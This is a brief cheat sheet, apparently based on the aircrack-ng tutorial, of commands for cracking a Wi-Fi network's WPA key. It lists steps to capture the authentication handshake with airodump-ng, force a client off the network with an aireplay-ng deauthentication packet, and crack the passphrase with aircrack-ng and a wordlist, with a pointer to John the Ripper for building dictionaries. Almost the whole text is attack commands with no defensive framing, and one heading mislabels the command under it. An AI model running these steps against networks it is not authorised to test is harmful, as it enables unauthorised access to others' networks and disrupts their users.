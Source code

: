 https://www.aircrack-ng.org/doku.php?id=cracking_wpa

Scan for networks
> `aireplay-ng --test mon0`

Collect auth handshake
> `airodump-ng -c CHANNEL --bssid MAC -w psk mon0`

Try to deauth a client
> `aireplay-ng -0 1 -a AP_MAC -c CLIENT_MAC mon0`

Try to crack the pass
> `aircrack-ng -w password.lst -b AP_MAC psk*.cap`

Uses the contents of password.lst to crack the key. Look into John The Ripper to generate dictionary.
